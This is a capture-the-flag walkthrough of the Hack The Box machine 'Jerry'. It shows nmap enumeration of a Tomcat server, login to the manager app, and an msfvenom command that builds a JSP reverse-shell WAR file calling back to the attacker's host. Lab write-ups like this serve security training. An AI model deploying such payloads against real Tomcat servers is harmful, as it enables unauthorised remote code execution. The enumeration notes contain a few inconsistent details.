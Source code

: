 ![logo](/logo.png)

# [Jerry- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 30 Jun 2018 on HTB,Jerry created by [mrh4sh](https://app.hackthebox.com/users/2570).So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Ms15-051
  *Drupal
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/jerry 10.10.10.95 -Pn
```

###### Output 

![](/Windows/Windows-Easy/Jerry/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/jerry 10.10.10.95 -Pn                                                                                       ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-25 19:21 EAT
Nmap scan report for 10.10.10.95
Host is up (0.32s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.86 seconds
```

looking at the results  we find out that there are 1 ports open and its a `JSP engine`and its running an `Apache Tomcat`. 

port[8080]-  http

looking at the port 8080 we find a landing page [http://10.10.10.95:8080](http://10.10.10.95:8080) a find an apache configuration document 

![](/Windows/Windows-Easy/Jerry/Screenshots/browser.png)

I managed App which directs to `manager/html` provides us with password and username

![](/Windows/Windows-Easy/Jerry/Screenshots/manager.png)

and am in the tomcat so let me find where to abuse tomcat from like how we did to ![Kotarak](/Linux/Linux-Hard/Kotarak/Kotarak.md)


![](/Windows/Windows-Easy/Jerry/Screenshots/tomcat.png)

lets abuse the manger `war` depoly 

A Web Application Resource (WAR) file is a single file container that holds all the potential files necessary for a Java-based web application. It can have Java Archives (.jar), Java Server Pages (.jsp), Java Servlets, Java classes, webpages, css, etc.

The `/WEB-INF` directory inside the archive is a special one, with a file named `web.xml` which defines the structure of the application.

Tomcat Manager makes it easy to deploy war files with a couple clicks, and since these can contain Java code, it’s a great target for gaining execution.

![](/Windows/Windows-Easy/Jerry/Screenshots/war.png)

```sh
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.11 lport=1337 -f war > leshack.war
```

![](/Windows/Windows-Easy/Jerry/Screenshots/msfvenom.png)

Then I click the file from here 

![](/Windows/Windows-Easy/Jerry/Screenshots/tomcatexploit.png)

and we get the shell

![](/Windows/Windows-Easy/Jerry/Screenshots/shell.png)

and since we are root we can get the the user and root flag

![](/Windows/Windows-Easy/Jerry/Screenshots/whoami.png)

we can navigate to `Desktop`

![](/Windows/Windows-Easy/Jerry/Screenshots/flags.png)

	-------------------------END successful attack @lesley----------------------

